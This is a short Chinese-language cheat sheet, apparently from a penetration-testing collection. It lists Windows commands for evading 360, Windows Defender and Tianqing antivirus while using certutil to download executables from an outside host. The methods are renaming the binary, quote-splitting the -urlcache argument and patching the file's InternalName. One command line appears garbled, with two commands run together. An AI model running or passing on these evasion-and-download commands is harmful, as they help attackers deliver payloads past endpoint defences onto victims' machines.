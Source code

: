 **bypass360**

```
360对 certutil 运行参数进行了动态检测，只要动态执行后的参数有 -urlcache 就拦截。那么把certutil复制换一个名字再去运行
copy c:\windows\system32\certutil.exe c.exe
c -urlcache -split -f http://192.168.31.205/geek.exe
```

**Defender 绕过**

```
certutil -url""""cache -split -f  http://192.168.31.205/geek.exe
```

**天擎绕过**

```
copy c:\windows\system32\certutil.exe c.exeverpatch.exe c.exe /s InternalName ""certutil -urlcache  -split -f http://xxx.com/dns.exe
```

### **其他方式**

https://mp.weixin.qq.com/s/-rN-rsnYRSKuJr5BkaRnBg

FTP 命令行下载 https://blog.csdn.net/qq_57163366/article/details/129438241